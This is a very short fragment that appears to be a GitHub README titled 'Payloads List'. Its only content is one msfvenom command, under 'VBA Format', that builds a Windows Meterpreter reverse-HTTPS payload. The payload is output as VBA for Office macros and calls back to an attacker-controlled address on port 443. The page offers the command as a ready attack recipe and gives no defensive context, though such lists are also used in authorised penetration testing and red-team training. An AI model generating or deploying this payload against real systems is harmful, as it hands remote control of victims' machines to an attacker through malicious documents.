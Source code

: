 # Payloads List

## VBA Format
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f vbapplication
```